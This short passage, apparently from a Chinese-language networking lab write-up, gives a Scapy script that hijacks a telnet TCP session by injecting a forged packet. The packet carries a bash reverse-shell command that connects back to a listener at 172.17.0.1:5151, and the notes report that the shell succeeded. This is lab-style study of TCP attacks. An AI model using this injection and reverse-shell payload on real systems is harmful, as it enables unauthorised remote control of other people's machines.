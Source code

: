 脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING SESSION HIJACKING PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40526, dport=23, flags="A", seq=1560628632, ack=1440868978)
data = "/bin/bash -i > /dev/tcp/172.17.0.1/5151 0<&1 2>&1\r\n"
pkt = ip/tcp/data
send(pkt, verbose=0)
```

先nc监听，再开另一个终端运行脚本，反向shell成功

![image-20220410223820792](readme.assets/image-20220410223820792.png)

抓包抓到了

